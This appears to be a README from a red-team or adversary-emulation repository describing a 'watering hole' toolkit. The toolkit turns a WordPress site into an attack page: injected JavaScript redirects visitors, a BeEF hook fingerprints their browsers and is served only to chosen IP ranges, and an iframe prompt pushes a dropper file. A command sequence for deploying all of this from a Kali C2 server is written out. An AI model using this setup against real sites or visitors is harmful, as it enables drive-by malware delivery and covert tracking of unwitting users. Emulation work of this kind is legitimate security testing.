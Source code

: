 # Watering Hole

- [Watering Hole](#watering-hole.)
  - [Overview](watering_hole_#overview.)
  - [Expected Usage](#expected-usage.)
  - [Package / OS Requirements](#package--os-requirements.)
  - [Preflight Checks](#preflight-checks.)
  - [Usage Examples](#usage-examples.)
  - [Fingerprinting Details from BEEF (via Evercookie and other bundled tools)](#fingerprinting-details-from-beef-via-evercookie-and-other-bundled-tools.)
    - [Browser-specific Details](#browser-specific-details.)
    - [Browser-specific Capabilities](#browser-specific-capabilities.)
    - [Hardware Details](#hardware-details.)
    - [Location Information](#location-information.)
  - [Cleanup Instructions](#cleanup-instructions.)
  - [Credential Details](#credential-details.)
  - [References](watering_hole_#references.)
    - [CTI Evidence](#cti-evidence.)
    - [Wordpress and Apache](#wordpress-and-apache.)

## Overview

The watering hole setup scripts are made to streamline the already streamlined process of spinning up a wordpress server and then altering it to mimic either a "compromised" site or a malicious site. It has the following components:

| Component      | Description                                                                                                                          |
| -------------- | ------------------------------------------------------------------------------------------------------------------------------------ |
| Setup          | shell script to install and initialize a generic wordpress site                                                                      |
| Redirection    | python script to append a js redirection script to an html/php file                                                                  |
| Fingerprinting | python script to install and explain setup of fingerprinting capabilities, including the in-range and out-of-range script files      |
| IP Range       | python script to prepend a php comparison to an html/php file                                                                        |
| Flash Prep     | python script to install iframe prompt for target and handler code within WordPress that toggles visibility based on cookie presence |
| "counter"      | surreptitiously named redirection js file - **REQUIRES CONFIG**                                                      |
| in-range.html  | script tag in html file that will load hook.js, applied to IP addresses designated by IP Range python script                         |
| Cleanup        | cleanup shell script; deletes all site data & database info; kills any processes anticipated to be running                           |

## Expected Usage

On the Kali C2 server (where the victim will be redirected to):

```bash
sudo bash wordpress_setup.sh
# edit counter.js
cp counter.js /srv/www/wordpress/counter.js #edited to redirect to where you want
python3 fingerprinting.py
# edit beef-master/config.yaml - change username, password, and name of cookie hook
python3 beef_setup.py
# edit in-range.html with the location of your BEEF hook.js file
python3 ip_range.py /srv/www/wordpress/index.php {1 or more IP addresses with or without masks} -i in-range.html -o out-of-range.html
cd beef-master; ./beef& # this will put beef on in the background
# {dropper file} is the file that you want the user to download on click
python3 flash_prep.py /srv/www/wordpress/index.php {dropper file}
```
